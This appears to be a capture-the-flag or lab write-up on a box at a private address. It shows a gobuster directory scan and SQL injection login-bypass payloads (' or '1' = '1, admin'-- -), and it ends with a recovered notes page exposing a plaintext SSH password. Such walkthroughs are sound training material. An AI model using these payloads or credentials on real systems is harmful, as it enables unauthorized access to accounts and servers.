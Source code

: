 gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.110.45 -x php -t 50
![[Pasted image 20240529163709.png]]
navigating to `/notes/` redirects to `/login/`, when pressing `ctrl+u` can see sql injection is available.
![[Pasted image 20240529164653.png]]
```sql
SELECT * from users where username = 'input' and password = 'input';
SELECT * from users where username = '' or '1' = '1' and password = '' or '1' = '1';
' or '1' = '1
```
logged in with `' or '1' = '1` in both username and password

![[Pasted image 20240529165039.png]]
need to be logged in as an admin, currently logged in as user adam
![[Pasted image 20240529165159.png]]
in order to login with the `admin` user use `admin'-- -` the -- - are comments
once logged in as `admin` user we are able to see the `notes`
![[Pasted image 20240529165453.png]]
```bash
ToDo

Finish developing the application and make it public.
Remove personal account from database and update tables for production.

Perform unit testing.
Done

Update SSH Password to L3ZBT6wvj5m6sP!x
```